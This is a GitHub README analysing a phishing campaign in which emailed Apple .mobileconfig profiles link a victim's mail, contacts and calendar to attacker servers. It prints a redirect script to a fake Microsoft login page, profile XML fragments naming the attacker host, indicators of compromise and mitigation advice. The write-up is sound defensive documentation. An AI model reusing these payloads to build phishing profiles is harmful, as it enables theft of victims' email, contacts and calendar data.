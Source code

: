 # Phishing-apple-mobileconfig-breakdown
Analysis of a phishing campaign using Apple .mobileconfig profiles for email, contacts, and calendar exfiltration.

## Background

This repository was created using the files and information from a phishing email I personally received.  
I regularly analyze phishing attempts I encounter, both out of curiosity and to stay aware of evolving techniques. In this case, while the email itself was part of a typical mass phishing campaign and used fairly standard methods, I chose to document it here as a **learning resource** for others.  
The campaign leverages Apple `.mobileconfig` profiles which may be useful for those studying mobile or configuration-based threats.



![phishing_screenshot](https://github.com/user-attachments/assets/ef862741-1ca3-4ef0-82b3-04ef3954b03c)



## Summary

This repository documents a phishing campaign observed in May 2025 that targets Apple device users by abusing `.mobileconfig` files — a lesser-known but legitimate configuration mechanism used on iOS and macOS systems. The campaign delivers three malicious configuration profiles via email, each designed to silently configure the victim’s device for data exfiltration.

Once installed, these profiles automatically connect the victim's device to attacker-controlled infrastructure by:
- Adding a **malicious IMAP/SMTP email account**
- Syncing the device's **contacts** via CardDAV
- Accessing the user's **calendar** via CalDAV

All payloads are disguised as part of a “Secure Setup” and reference domains that appear vaguely professional (e.g., `eu40.1host.gr`). While the phishing email itself was generic and mass-distributed.

---

## Key Findings

- Delivered via phishing email impersonating Microsoft  
- `.mobileconfig` profiles install silently on iOS/macOS devices  
- Targets:
  - **Mail** (`com.apple.mail.managed`)
  - **Contacts** (`com.apple.carddav.account`)
  - **Calendar** (`com.apple.caldav.account`)
- Backend controlled by attacker at `mail.blutr.gr`  
- SSL misconfiguration (port 2080) used to avoid detection  
- Redirection script used to fake legitimacy and lure users to spoofed login page  

---

## Email Payload Overview

**Sender (spoofed):**
```
info.mail.mr@mi-robotic.com
```

**Observed Subject:**
```
Microsoft Secure Document Access
```

**Malicious Attachments:**
- `email-gdgraphic.mobileconfig`
- `carddav-gdgraphic.mobileconfig`
- `caldav-gdgraphic.mobileconfig`

---

## Redirection JavaScript (Embedded or Linked)

This JavaScript is embedded in a fake landing page (or linked through the `.mobileconfig` installation path):

```javascript
setTimeout(() => {
  document.getElementById("loader").style.display = 'block';
  document.getElementById("success").style.display = 'block';
}, 100);

setTimeout(() => {
  window.location.href = "https://live.microsoft.outh.sso.50-6-202-90.cprapid.com/?Xkjvaksk121asIghlasdqwe";
}, 1000);
```

### Purpose:
- Displays a fake success/loading screen  
- Redirects to a phishing site impersonating Microsoft’s login page  
- Uses `cprapid.com`, a legitimate domain commonly abused via Cloudflare or similar services  

---

## `.mobileconfig` Payloads Breakdown

### 1. Mail Account Configuration

```xml
<key>PayloadType</key>
<string>com.apple.mail.managed</string>
<key>EmailAddress</key>
<string>blutrgr@eu40.1host.gr</string>
<key>IncomingMailServerHostName</key>
<string>mail.blutr.gr</string>
<key>IncomingMailServerPortNumber</key>
<integer>993</integer>
<key>OutgoingMailServerPortNumber</key>
<integer>465</integer>
```

- Configures Apple Mail with IMAP/SMTP  
- SSL used on standard ports (993/465)  
- Server controlled by attacker  
- Enables attacker to monitor or send mail from the device  

---

### 2. CardDAV (Contacts)

```xml
<key>PayloadType</key>
<string>com.apple.carddav.account</string>
<key>CardDAVHostName</key>
<string>mail.blutr.gr:2080</string>
```

- Syncs the user’s address book with the attacker’s server  
- Port 2080 is suspicious — not standard for SSL or CardDAV  
- Can exfiltrate names, phone numbers, and email addresses  

---

### 3. CalDAV (Calendar)

```xml
<key>PayloadType</key>
<string>com.apple.caldav.account</string>
<key>CalDAVHostName</key>
<string>mail.blutr.gr</string>
<key>CalDAVPort</key>
<integer>2080</integer>
```

- Syncs user calendar to attacker infrastructure  
- May enable the injection of malicious or misleading events  

---

## Indicators of Compromise (IOCs)

| Type            | Value                                                  |
|-----------------|--------------------------------------------------------|
| Email           | `blutrgr@eu40.1host.gr`                                |
| Hostname        | `mail.blutr.gr`                                        |
| Fake MS login   | `live.microsoft.outh.sso.50-6-202-90.cprapid.com`      |
| Ports           | 993, 465, **2080**                                     |
| File Types      | `.mobileconfig`                                        |
| Payload Types   | `com.apple.mail.managed`, `com.apple.carddav.account`, `com.apple.caldav.account` |

---

## Mitigation and Detection

### For Individuals:
- Never install `.mobileconfig` files unless provided by verified IT personnel  
- On iOS: **Settings > General > VPN & Device Management**  
- On macOS: **System Settings > Profiles**

### For Organizations:
- Block `.mobileconfig` attachments at email gateway  
- Monitor or block outbound traffic to:
  - `mail.blutr.gr`
  - `*.1host.gr`
  - `*.cprapid.com` (especially from Apple devices)
- Disable unmanaged profile installation via MDM policies  
- Watch for CardDAV/CalDAV traffic over non-standard ports (e.g. 2080)

---

## Conclusion

This campaign demonstrates a clever and low-interaction method of data exfiltration using trusted Apple device features. By leveraging `.mobileconfig` profiles, attackers bypass traditional phishing detection and gain persistent access to sensitive information.

### This repository contains:
- Sample redacted profiles for reference  
- Indicators of compromise  
- Write-up to raise awareness of configuration profile abuse  


